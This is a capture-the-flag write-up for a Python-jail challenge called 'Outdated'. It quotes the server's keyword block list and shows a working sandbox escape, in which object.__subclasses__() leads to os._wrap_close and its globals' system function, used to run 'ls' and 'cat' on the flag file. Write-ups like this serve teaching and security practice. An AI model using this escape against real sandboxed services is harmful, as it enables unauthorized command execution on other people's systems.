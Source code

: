 # Outdated

> I found this old website that runs your python code, but the security hasn't been updated in years
> I'm sure there's a flag floating around, can you find it?

> You can run python code from anywhere! Upload code from your phone! (Note: code cannot import libraries or use some keywords. Please stop trying to.)

This is a basic pyjail challenge. Imports and certain keywords are blocked. The [source code](server) of the server is provided, so we can see what exactly is allowed.

Notably:

```python
# app.py
blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec", "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys", "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]
```

There are a few other checks, including one that blocks non-ASCII characters, and a limit on the number of lines in the file.

Sidenote: when I was solving this challenge I didn't realize the source code was provided, which didn't make a big difference but did lead to me wasting some time experimenting with which keywords were blocked.

## Solution

Most of the obvious solutions are prevented by the blocked keywords, and lack of imports. 

I started by printing out all of the subclasses of `object` to see what classes I had access to:

``` python
print(object.__subclasses__())
```

This returned a long list of classes to look through. I ended up just `CMD+F`ing for `os` to try to find any classes of interest, and the only result was `os._wrap_close`.

I tried googling this class since I had no idea was it was, but surprisingly I found absolutely zero information about it, so I'm still not sure what it really is. ~~However I did find [one useful page](https://blog.p6.is/Python-SSTI-exploitable-classes/) detailing how it could be exploited.~~ **Edit:** The website now seems to be down :(

From that page:

``` python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```

It looks like the initializer for `os._wrap_close` has a reference to the `system` function, which can be used to execute shell commands!

We just need to grab that class from the list we got earlier, and then we can use the `ls` command to look around the file system:

``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('ls'))
```

```
Dockerfile
__pycache__
app.py
flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt
run.sh
static
templates
uploads
```

There's the flag!

Read the file with `cat`:

``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cat flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt'))
```

And we get the flag:

```
tjctf{oops_bad_filter_3b582f74}
```
